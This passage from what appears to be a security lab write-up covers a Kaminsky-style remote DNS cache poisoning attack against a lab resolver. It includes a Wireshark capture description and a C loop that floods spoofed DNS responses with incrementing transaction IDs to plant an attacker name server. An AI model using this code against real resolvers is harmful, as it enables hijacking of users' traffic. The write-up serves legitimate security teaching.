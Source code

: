 The image below shows the package we captured in Wireshark. We defined three records: one question, one answer and one authority. Our spoofing package aimed to make the "<ins style="color:blue;font-weight:bold">DNS</ins>" believe that the address of `aaaaa.example.edu` should be `1.2.3.4` and the name server should be `ns.dnslabattacker.com`. 

<figure>
<img style="width:75%; padding-left:12.5%; " src="/assets/images/media/16351739843977/16356264191956.jpg"/>
<figcaption>Figure 1.2.2.1 Capture package after spoofing DNS Replies </figcaption><br>
</figure>

### 1.3 SubTask: Launch an attack 

In this part, we moved our implementation in previous subtask into the `udp.c` file. Therefore, there were both `buffer` and `resp_buffer` storing the dns request and the dns response package respectively. 
After that, we changed the codes about sending the package as below. We used similar codes before to change the request and response URL randomly. Because of the modification, we had to recalculate the UDP checksum(related to the UDP package data) but not the IP checksum (depended only on the header). 

Mostly-important codes below are related to the transaction id and the number of responses. We found that it is hard to successfully replace the cache if we made the number too small. It is because most of package arrives before the "<ins style="color:blue;font-weight:bold">DNS</ins>" sends request to remote name server. However, if the number is too larger, it will slow down the attack. Therefore, we use $1000$ in our implementation. As to the transaction id, we made it random at first and increased one in each response.

```c
while(1){	
    // Randomly change the request and response url
    int charnumber = 1+rand()%5;
    char rd_char = ('a' + rand()%26);
    *(data+charnumber) = rd_char;
    *(qd_name+charnumber) = rd_char; 
    *(an_name+charnumber) = rd_char;
        
    // recalculate the checksum for the UDP packet
    udp->udph_chksum=check_udp_sum(buffer, packetLength-sizeof(struct ipheader)); 
    // send response the packet out
    if(sendto(sd, buffer, packetLength, 0, (struct sockaddr *) &requ_sin, sizeof(requ_sin)) < 0)
        printf("packet send error %d which means %s\n", errno, strerror(errno));
        
    for(int i=0; i<1000; i++){
        resp_dns->query_id += 1; 
        resp_udp->udph_chksum=check_udp_sum(resp_buffer, resp_ip_pkg_len-sizeof(struct ipheader));
        int resp_rst = sendto(sd, resp_buffer, resp_ip_pkg_len, 0, (struct sockaddr *)&resp_sin, sizeof(resp_sin));
        if(resp_rst < 0)printf("packet send error %d which means %s\n",errno,strerror(errno));
    }
}
```

We used the following two commands to verify the result of our attack. The output below actually proves that the NS record for `example.edu` becomes `ns.dnslabattacker.net`. 
